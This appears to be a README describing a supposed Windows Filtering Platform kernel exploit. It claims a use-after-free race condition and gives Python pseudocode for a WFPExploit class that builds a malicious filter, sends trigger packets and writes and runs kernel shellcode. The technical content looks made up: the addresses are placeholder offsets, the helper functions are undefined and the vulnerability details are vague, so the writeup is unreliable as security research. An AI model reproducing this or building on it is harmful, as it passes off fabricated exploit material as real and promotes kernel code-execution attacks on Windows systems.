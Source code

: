 # Windows Filtering Platform (WFP) Kernel Exploit
## Advanced Technical Analysis and Implementation

### Overview
This exploit targets the Windows Filtering Platform's filter engine, specifically focusing on the interaction between filter operations and kernel memory management. The vulnerability lies in the handling of filter state transitions and opcode processing, which can lead to kernel memory corruption.

## Technical Architecture

### Target Components
1. **Filter Engine**
   - Handles network packet inspection
   - Manages filter state transitions
   - Processes filter operations
   - Kernel-level memory management
   - State machine implementation

2. **Callout Drivers**
   - Custom filter operations
   - State management
   - Memory operations
   - Kernel-mode execution
   - Driver interaction

### Vulnerability Analysis
The exploit targets a race condition in the WFP filter engine's state management system. When processing certain opcode sequences, the engine fails to properly validate state transitions, leading to a use-after-free condition in kernel memory.

#### Technical Details
- **Memory Layout**
  - Kernel base: 0xFFFFF80000000000
  - Filter engine: 0xFFFFF80000001000
  - Callout drivers: 0xFFFFF80000002000
  - State management: 0xFFFFF80000003000

- **State Machine**
  - Initial state: 0x01
  - Transition state: 0x02
  - Target state: 0x03
  - Error state: 0x04

### Exploit Flow
1. Trigger state transition
2. Manipulate filter operations
3. Exploit use-after-free
4. Achieve kernel code execution

## Advanced Pseudocode

```python
# WFP Exploit Pseudocode

class WFPExploit:
    def __init__(self):
        self.target_ip = "192.168.1.1"
        self.target_port = 445
        self.filter_engine = None
        self.kernel_base = None
        self.memory_layout = {
            'kernel_base': 0xFFFFF80000000000,
            'filter_engine': 0xFFFFF80000001000,
            'callout_drivers': 0xFFFFF80000002000,
            'state_management': 0xFFFFF80000003000
        }

    def setup_environment(self):
        # Initialize WFP components
        self.filter_engine = initialize_wfp()
        self.kernel_base = get_kernel_base()
        self.setup_memory_layout()

    def setup_memory_layout(self):
        # Set up memory layout for exploitation
        self.memory_layout['target_address'] = self.kernel_base + 0x1000
        self.memory_layout['shellcode_address'] = self.kernel_base + 0x2000
        self.memory_layout['state_transition'] = self.kernel_base + 0x3000

    def create_malicious_filter(self):
        # Create filter with specific opcode sequence
        filter_data = {
            'layer': 'FWPM_LAYER_OUTBOUND_TRANSPORT_V4',
            'action': 'FWP_ACTION_PERMIT',
            'opcode_sequence': [
                0x01,  # Initial state
                0x02,  # Transition state
                0x03   # Target state
            ],
            'memory_layout': self.memory_layout
        }
        return filter_data

    def trigger_vulnerability(self):
        # Send packets to trigger state transition
        for opcode in self.opcode_sequence:
            packet = self.create_packet(opcode)
            self.send_packet(packet)
            time.sleep(0.1)  # Timing is critical

    def exploit_use_after_free(self):
        # Exploit the use-after-free condition
        memory_layout = {
            'target_address': self.kernel_base + 0x1000,
            'shellcode_address': self.kernel_base + 0x2000
        }
        return memory_layout

    def execute_shellcode(self):
        # Execute kernel shellcode
        shellcode = self.generate_shellcode()
        self.write_to_kernel(shellcode)
        self.trigger_execution()

    def main(self):
        self.setup_environment()
        filter_data = self.create_malicious_filter()
        self.trigger_vulnerability()
        memory_layout = self.exploit_use_after_free()
        self.execute_shellcode()

# Usage
exploit = WFPExploit()
exploit.main()
```

## Technical Requirements

### Environment
- Windows 10/11
- Python 3.x
- WinDbg
- IDA Free

### Dependencies
```python
# Required Python packages
import socket
import struct
import binascii
import time
import ctypes
from ctypes import wintypes
```

## Mitigation Strategies
1. **Patch Implementation**
   - Validate state transitions
   - Implement proper memory management
   - Add opcode sequence validation

2. **Detection Methods**
   - Monitor filter operations
   - Track state transitions
   - Log suspicious opcode sequences

## Academic Value
This exploit demonstrates:
1. Kernel-level vulnerability exploitation
2. Protocol-level attack vectors
3. Memory corruption techniques
4. Race condition exploitation

## Implementation Notes
- Requires kernel debugging capabilities
- Timing is critical for successful exploitation
- Memory layout must be carefully managed
- Shellcode must be position-independent

## Testing Environment
- Isolated Windows VM
- Network isolation
- Kernel debugging enabled
- Test network configuration

## References
- Windows Filtering Platform Documentation
- Kernel Memory Management
- Race Condition Exploitation
- Use-after-free Techniques
